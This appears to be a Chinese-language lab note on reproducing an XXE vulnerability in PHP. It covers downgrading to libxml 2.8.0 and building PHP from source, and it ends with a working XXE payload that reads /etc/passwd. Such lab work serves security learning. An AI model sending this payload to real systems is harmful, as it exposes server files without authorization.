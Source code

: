	function translate($str){
	    switch($str){
	        case "name":
	            return "Name";
	        case "wechat":
	            return "Wechat";
	        case "website":
	            return "website";
	        
	        }
	    
	    }
	?>


访问一下





![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-7/66825030.jpg)



----------

[simplexml_load_string](https://secure.php.net/function.simplexml-load-string)


----------
 
libxml 2.8.0  必须有这个。。


	libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。


遇到的坑，需要解决的问题，，`libxml Version	2.9.1` 自己的版本是2.9.1，默认是不解析外部实体的。。

现在的问题是卸载，2.9.1安装 2.8.0。


[卸载libxml2](http://installion.co.uk/ubuntu/trusty/main/l/libxml2-dev/uninstall/index.html)

----------

源码安装 php、mysql



----------

##### payload 


普通XML利用的payload。

* 有回显

	<?xml version="1.0" encoding="utf-8"?> 
	<!DOCTYPE xxe [
	<!ELEMENT name ANY >
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
	<root>
	<name>&xxe;</name>
	</root>
